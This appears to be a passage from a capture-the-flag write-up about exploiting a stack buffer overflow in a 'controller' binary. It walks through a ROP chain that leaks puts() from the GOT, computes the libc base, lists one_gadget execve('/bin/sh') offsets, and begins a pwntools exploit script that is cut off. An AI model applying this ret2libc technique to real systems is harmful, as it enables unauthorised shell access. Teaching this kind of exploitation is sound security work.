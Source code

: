 There are no "win" functions in this binary to return to that will print out the flag, or give us a shell. Getting a shell means finding a way to execute `execve("/bin/sh")` from libc. Since libc is randomized, we need to calculate the target's libc base address by leaking a function's libc address and subtracting its offset from the provided `libc.so.6`. 

One solution is to utilize ROP gadgets to pop the address of `puts()` from the GOT into the RDI register, and then return to `puts()` at the PLT to have it print out the address of `puts()` in libc: 

```
buf  = b"A"*40
buf += p64(rop.find_gadget(["pop rdi", "ret"])[0])      # pop rdi gadgat
buf += p64(elf.got.puts)                                # puts() in GOT
buf += p64(elf.plt.puts)                                # puts() in PLT

r.sendline(buf)

r.recvline()
puts_leak = int.from_bytes(r.recvline()[:6], "little")
print(f"puts@libc leak: 0x{puts_leak:2x}")
```

With the leaked libc address of `puts()`, it becomes trivial to calculate libc's base address:

```
libc.address = puts_leak - libc.sym.puts
print(f"libc base: 0x{libc.address:2x}")
```

To find a gadget that executes `execve("/bin/sh")`, we can use the `one_gadget` tool: 

```
► one_gadget  ./libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

We can add any of these offsets to libc's base address and return to that to get a shell, but first we need to get the binary to prompt us for more data. One way to do that is to return to the start of `calculator()` and exploit the stack buffer overflow again, but this time changing the saved return pointer to point to a one-gadget address that calls `execve()`. 

Here's the final exploit:

```
#!/usr/bin/env python3

from pwn import *

def send_numbers():
    # send numbers to calculator()
    print("Sending numbers...")
    r.recvuntil(": ")
    r.sendline("-65538 -130876")
    r.recvuntil("> ")
    r.sendline("2")
    r.recvuntil("> ")

context(os="linux", arch="amd64")
elf = context.binary = ELF("controller")
```